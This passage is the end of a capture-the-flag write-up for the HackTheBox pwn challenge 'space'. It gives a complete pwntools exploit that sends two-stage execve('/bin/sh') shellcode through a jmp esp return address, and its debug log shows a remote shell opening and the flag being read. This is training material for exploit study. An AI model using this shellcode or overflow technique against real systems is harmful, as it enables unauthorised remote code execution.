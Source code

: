 we got the address for jmp esp `0x0804919f`.

### Final Exploit

lets write our final python script.

```shell
from pwn import *

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
sh = remote("docker.hackthebox.eu",30935)


jmp_esp = p32(0x0804919f) 
first_part = b'\x31\xd2\x31\xc0\x83\xec\x15\xff\xe4'
last_part = b'\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

payload = b'a' + last_part + jmp_esp + first_part

sh.sendlineafter("> ",payload)
sh.interactive()
```
and we got a shell

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $python3 jmp.py 
[+] Opening connection to 161.35.163.0 on port 30659: Done
[DEBUG] Received 0x2 bytes:
    b'> '
[DEBUG] Sent 0x20 bytes:
    00000000  61 50 68 2f  2f 73 68 68  2f 62 69 6e  89 e3 b0 0b  │aPh/│/shh│/bin│····│
    00000010  cd 80 9f 91  04 08 31 d2  31 c0 83 ec  15 ff e4 0a  │····│··1·│1···│····│
    00000020
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x20 bytes:
    b'flag.txt\n'
    b'run_challenge.sh\n'
    b'space\n'
flag.txt
run_challenge.sh
space
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x1c bytes:
    b'HTB{sh3llc0de_1n_7h3_5p4c3}\n'
HTB{sh3llc0de_1n_7h3_5p4c3}

```
